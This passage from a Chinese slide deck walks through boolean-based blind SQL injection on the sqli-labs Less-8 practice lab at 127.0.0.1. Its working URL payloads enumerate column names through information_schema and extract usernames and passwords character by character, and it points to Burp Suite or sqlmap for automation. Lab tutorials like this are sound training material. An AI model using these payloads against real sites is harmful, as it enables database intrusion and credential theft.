

# Less-8_02 法一 布尔盲注
6. http://127.0.0.1/sqli/Less-8/?id=1‘ and  ascii(substr((select column_name from information_schema.columns where table_name = 0x7573657273 limit 1,1),1,1)) >10 --+ 同理，进行判断表中的字段，然后进行判断。可以得到username，password；
7. http://127.0.0.1/sqli/Less-8/?id=1‘  and ascii(substr((select username from security.users limit 0,1),1,1)) >10 --+ 同理，进行判断，最后再使用password进行判断。
8. 因为猜解速度较慢，可以配合burpsuite或者是sqlmap的脚本来使用。